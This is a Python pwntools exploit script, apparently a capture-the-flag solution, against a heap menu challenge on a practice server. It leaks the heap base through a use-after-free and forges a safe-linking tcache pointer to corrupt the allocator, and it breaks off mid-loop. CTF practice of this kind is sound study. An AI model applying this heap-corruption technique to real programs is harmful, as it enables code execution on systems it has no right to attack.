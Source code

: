 ```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 1
if debug:
    p = process([file_path])
    # gdb.attach(p, "b *$rebase(0xE23)")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('node3.buuoj.cn', 26212)
    libc = ELF('./libc.so.6')
    one_gadget = 0x0


def add(size, content=b"1\n"):
    p.sendlineafter("&gt;&gt;", "1")
    p.sendlineafter("Size:\n", str(size))
    p.sendafter("Content:\n", content)


def delete():
    p.sendlineafter("&gt;&gt;", "2")


def show():
    p.sendlineafter("&gt;&gt;", "3")


def edit(content):
    p.sendlineafter("&gt;&gt;", "5")
    p.sendafter("Content:\n", content)


stdout = 0xa6c0

while True:
    try:
        add(0x78)
        delete()
        show()
        heap_base = u64(p.recv(8)) &lt;&lt; 12
        log.success("heap base is `{``}`".format(hex(heap_base)))

        edit(b"\x00"*0x10)
        delete()
        enc = ((heap_base + 0x2a0) &gt;&gt; 12) ^ (heap_base + 0x10)
        edit(p64(enc) + p64(heap_base + 0x10))


        add(0x78)
        add(0x78, b"\x00"*0x48 + p64(0x0007000000000000))
        gdb.attach(p, "b *$rebase(0xE23)")
        delete()

        # gdb.attach(p, "b *$rebase(0xE23)")

```